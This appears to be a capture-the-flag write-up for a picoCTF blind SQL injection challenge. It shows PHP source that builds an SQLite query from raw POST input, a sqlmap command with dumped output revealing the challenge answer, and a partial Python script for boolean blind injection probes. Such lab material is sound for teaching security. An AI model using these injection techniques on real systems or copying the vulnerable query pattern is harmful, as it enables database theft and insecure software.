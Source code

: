 ```
  ini_set('error_reporting', E_ALL);
  ini_set('display_errors', 'On');

  $answer = $_POST["answer"];
  $debug = $_POST["debug"];
  $query = "SELECT * FROM answers WHERE answer='$answer'";
  echo "<pre>";
  echo "SQL query: ", htmlspecialchars($query), "\n";
  echo "</pre>";
?>
<?php
  $con = new SQLite3($database_file);
  $result = $con->query($query);

  $row = $result->fetchArray();
  if($answer == $CANARY)  {
    echo "<h1>Perfect!</h1>";
    echo "<p>Your flag is: $FLAG</p>";
  }
  elseif ($row) {
    echo "<h1>You are so close.</h1>";
  } else {
    echo "<h1>Wrong.</h1>";
  }
?>
```

Solution: Blind SQL Injection - SQLite3
``` bash
$ sqlmap -u http://2018shell.picoctf.com:15987/answer2.php --data="answer=*" --dbms=SQLite -T answers --dump
Database: SQLite_masterdb
Table: answers
[1 entry]
+----------------+
| answer         |
+----------------+
| 41AndSixSixths |
+----------------+
```

Python Script testing queries:

``` python
import requests
import string

url = "http://2018shell.picoctf.com:15987/answer2.php"

s = requests.session()

def isTrue(r):
	return "You are so close" in r.text or "flag" in r.text

def inject(i):
	data = {
		"answer":i,
		"debug":"0"
	}
	r = s.post(url, data)
	return isTrue(r)

def p_inject(i):
	res = inject(i)
	if(res): print(i + " => " + str(res))
```